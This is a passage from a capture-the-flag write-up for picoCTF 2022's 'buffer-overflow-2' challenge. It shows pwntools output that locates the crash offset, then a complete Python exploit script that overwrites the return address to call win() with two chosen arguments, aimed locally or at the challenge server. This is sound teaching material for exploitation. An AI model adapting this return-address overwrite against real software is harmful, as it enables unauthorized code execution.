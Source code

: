 [<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code -11 (SIGSEGV) (pid 2777)
<span class="meta prompt_">>>> </span>core = Corefile(&apos;./core&apos;)
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffafca40
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>> </span>cyclic_find(0x62616164)
112
{% endccb %}

The next thing we need to know about is the way functions are laid out on the stack. Let's recall the diagram I drew out earlier:

![Stack Diagram](asset/pico22/buffer-overflow/stack-visual2.png)

If we want to call a function with parameters, we'll need to include the base pointer alongside a return address, which can simply be `main()`. With this, we can basically copy our script over from `Buffer overflow 1` with a few tweaks to the payload:

{% ccb caption:buffer-overflow-2.py lang:py gutter1:1-25 url:'gist.github.com/jktrn/c6c17fc63ca801d0b64d8bb5acc982c1' url_text:'github gist link' %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

payload = flat([
    {cyclic_find(core.eip): elf.symbols.win},    # pads win address
    elf.symbols.main,                            # return address
    0xCAFEF00D,                                  # parameter 1
    0xF00DF00D                                   # parameter 2
])

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
{% endccb %}

Let's run it on the remote server:
